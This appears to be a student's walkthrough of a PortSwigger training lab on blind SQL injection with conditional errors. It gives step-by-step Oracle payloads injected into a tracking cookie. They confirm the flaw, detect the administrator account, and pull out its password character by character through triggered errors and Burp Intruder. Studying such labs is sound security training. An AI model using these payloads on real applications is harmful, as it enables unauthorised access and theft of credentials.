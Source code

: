 
### Blind SQL injection with conditional errors : PRACTITIONER

---

> Test that the cookie is vulnerable.
> Try adding `'`, we get an error. This implies that there is a vulnerability.
> Try closing `''`, and it works normally. This is implies there is a vulnerability, but we need to ensure that the SQL code is indeed interpreted.

> Try inputting a query that is correct, so if it works, we know that our SQL statements are interpreted.
```
rA16s0b3PCRhyQB4' AND (SELECT '')='' --
rA16s0b3PCRhyQB4' || (SELECT '') || ' --
```
> This query is correct, but its also causing an error. Might be oracle dbms, so try adding the `FROM DUAL` after the select.
```
rA16s0b3PCRhyQB4' AND (SELECT '' FROM DUAL)='' --
rA16s0b3PCRhyQB4' || (SELECT '' FROM DUAL) || ' --
``` 
> The page responds normally, meaning that it is an oracle dbms, and that our sql code was interpreted.

> We now are sure that it is vulnerable, as both a wrong and correct query where inputted, and they were interpreted. The wrong one was without the `FROM DUAL` clause.

> We now want to check if there is a users table.
```
rA16s0b3PCRhyQB4' AND (SELECT '' FROM users)='' --
rA16s0b3PCRhyQB4' || (SELECT '' FROM users) || ' --
```
> It works. If it hadn't worked, we shouldv'e tried adding `WHERE ROWNUM=1` so as not to break our query if the users table has more than 1 row. 
> Cannot use the `LIMIT 1` syntax as it is not supported by oracle.

> Now we check for the presence of the administrator user.
```
rA16s0b3PCRhyQB4' AND (SELECT username FROM users WHERE username='administrator' )='administrator' --

rA16s0b3PCRhyQB4' || (SELECT username FROM users WHERE username='administrator' )|| ' --
```
> It works, so i tried checking for different usernames and they all worked. So i should try using conditional errors to check for the presence of the administrator.

> For an easier expression, use string concatenation instead of equality checks.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || ' --
```
> This returns an error, meaning that the 'administrator' user exists. To elaborate, try a wrong user, such as `asfas`. The query will work normally, because the FROM part is not correct, and hence the select case portion won't run.
> Our blind injection works through error conditioning. We allow the error condition to happen once something that we desire is true. In our case, we desired the 'administrator' user to exist. If it exists, we trigger an error, signalling us that what we desire occurs.

> Now we need to enumerate the password of the admin user.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password) > 20) || ' --
```
> Keep trying, or use the BURPSUITE INTRUDER spider tool to change the length until we don't get an error. Again, if we get an error, this means we are on the right path.
> Our password has length of 20, now to enumerate all its characters, use the BURPSUITE INTRUDER clusterbomb tool to change both the index and character.
```
rA16s0b3PCRhyQB4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1) = 'a') || ' --
```

> Let the indices be from 1 to 20.
> Let the characters be from a-z and 0-9

> As [[Portswigger/SQL Injection/Lab 12]], conduct the attack and watch for the different response sizes or status codes. See the size corresponding to errors and use those to obtain results. Use status code 500 representing errors to obtain results.

1 - 7
2 - s
3 - s
4 - j
5 - u
6 - 0
7 - m
8 - y
9 - z
10 - 3
11 - h
12 - g
13 - q
14 - x
15 - 1
16 - q
17 - 0
18 - i
19 - l
20 - l

> Assemble password and login to complete lab.
---
